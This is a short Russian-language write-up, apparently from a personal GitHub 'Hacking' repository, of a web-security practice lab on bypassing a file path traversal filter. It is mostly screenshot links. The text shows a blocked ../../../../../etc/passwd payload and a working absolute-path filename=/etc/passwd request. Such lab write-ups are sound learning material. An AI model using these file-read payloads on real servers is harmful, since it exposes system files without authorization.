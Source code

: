 
![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass/5.png)
![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass/6.png)
?filename=../../../../../etc/passwd не юудет работать <br>
Используем абсолютный путь /etc/passwd <br>
![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass/7.png)
Ура
![](https://github.com/TsyganenkoE/Hacking/blob/master/Lab:%20File%20path%20traversal%2C%20traversal%20sequences%20blocked%20with%20absolute%20path%20bypass/8.png)
